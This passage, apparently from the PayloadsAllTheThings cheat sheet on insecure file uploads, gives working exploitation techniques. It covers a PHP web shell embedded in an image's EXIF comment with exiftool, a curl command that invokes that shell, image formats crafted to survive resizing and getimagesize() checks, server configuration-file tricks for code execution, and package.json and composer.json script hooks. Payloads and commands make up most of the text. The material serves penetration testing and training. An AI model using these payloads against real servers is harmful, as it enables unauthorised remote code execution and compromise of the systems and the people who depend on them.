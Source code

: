 Also you upload:
- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


### Picture with custom metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### Configuration Files

If you are trying to upload files to a :
- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.

Configuration files examples
- [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
- [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)

Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.
- package.json
    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```
- composer.json
    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```
